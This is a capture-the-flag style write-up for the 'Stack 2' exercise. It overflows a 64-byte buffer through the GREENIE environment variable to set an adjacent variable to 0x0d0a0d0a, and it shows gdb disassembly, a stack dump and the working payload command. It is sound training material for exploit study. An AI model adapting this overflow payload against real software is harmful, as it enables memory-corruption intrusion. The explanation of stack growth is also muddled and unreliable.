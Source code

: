 # Stack 2
## Overview
    The variable gets its value from the environment variable GREENIE instead
    of a command line parameter and buffer[64] copy the value of variable.
    Since the esp(current stack pointer) grows upward when allocating memory
    and the higher the esp goes, it points to smaller address number.
    We should first modify the environment variable to a very large value 
    with 0x0d0a0d0a as postfix to overwrite buffer[64] and modified.

## Process
    $ export GREENIE=`python -c "print 'A'*64"`
    $ env | grep GREENIE
    GREENIE=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    $ gdb -q ./Stack2
    (gdb) disas main
        Dump of assembler code for function main:
            0x08048494 <+0>:     push   %ebp
            0x08048495 <+1>:     mov    %esp,%ebp
            0x08048497 <+3>:     and    $0xfffffff0,%esp
            0x0804849a <+6>:     sub    $0x60,%esp
            0x0804849d <+9>:     movl   $0x80485e0,(%esp)
            0x080484a4 <+16>:    call   0x804837c <getenv@plt>
            0x080484a9 <+21>:    mov    %eax,0x5c(%esp)
            0x080484ad <+25>:    cmpl   $0x0,0x5c(%esp)
            0x080484b2 <+30>:    jne    0x80484c8 <main+52>
            0x080484b4 <+32>:    movl   $0x80485e8,0x4(%esp)
            0x080484bc <+40>:    movl   $0x1,(%esp)
            0x080484c3 <+47>:    call   0x80483bc <errx@plt>
            0x080484c8 <+52>:    movl   $0x0,0x58(%esp)
            0x080484d0 <+60>:    mov    0x5c(%esp),%eax
            0x080484d4 <+64>:    mov    %eax,0x4(%esp)
            0x080484d8 <+68>:    lea    0x18(%esp),%eax
            0x080484dc <+72>:    mov    %eax,(%esp)
            0x080484df <+75>:    call   0x804839c <strcpy@plt>
            0x080484e4 <+80>:    mov    0x58(%esp),%eax
            0x080484e8 <+84>:    cmp    $0xd0a0d0a,%eax
            0x080484ed <+89>:    jne    0x80484fd <main+105>
            0x080484ef <+91>:    movl   $0x8048618,(%esp)
            0x080484f6 <+98>:    call   0x80483cc <puts@plt>
            0x080484fb <+103>:   jmp    0x8048512 <main+126>
            0x080484fd <+105>:   mov    0x58(%esp),%edx
            0x08048501 <+109>:   mov    $0x8048641,%eax
            0x08048506 <+114>:   mov    %edx,0x4(%esp)
            0x0804850a <+118>:   mov    %eax,(%esp)
            0x0804850d <+121>:   call   0x80483ac <printf@plt>
            0x08048512 <+126>:   leave
            0x08048513 <+127>:  ret
        End of assembler dump.
    (gdb) b *main+84
    Breakpoint 1 at 0x80484e8: file stack2/stack2.c, line 22.
    (gdb) x/60x $esp
        0xffffd530: 0xffffd548  0xffffdea9  0xf7fb8000  0x0000cd57
        0xffffd540: 0xffffffff  0x0000002f  0x41414141  0x41414141
        0xffffd550: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd560: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd570: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd580: 0x41414141  0x41414141  0x00000000  0xffffdea9
        0xffffd590: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd5a0: 0x00000001  0xffffd634  0xffffd63c  0x00000000
        0xffffd5b0: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd5c0: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd5d0: 0x00000000  0xee5ca7c2  0xd23c09d2  0x00000000
        0xffffd5e0: 0x00000000  0x00000000  0x00000001  0x080483e0
        0xffffd5f0: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
        0xffffd600: 0x00000001  0x080483e0  0x00000000  0x08048401
        0xffffd610: 0x08048494  0x00000001  0xffffd634  0x08048530
    
## Method
    Use 64 bytes to overwrite buffer[64] and little endian of 0x0d0a0d0a 
    (\x0a\x0d\x0a\x0d) to overwrite modified.
    So we need to set environment variable to 64 bytes A + \x0a\x0d\x0a\x0d.
## Answer
    $ export GREENIE=`python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'"`
    $ env | grep GREENIE
    GREENIE=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    $ ./stack2
    you have correctly modified the variable

    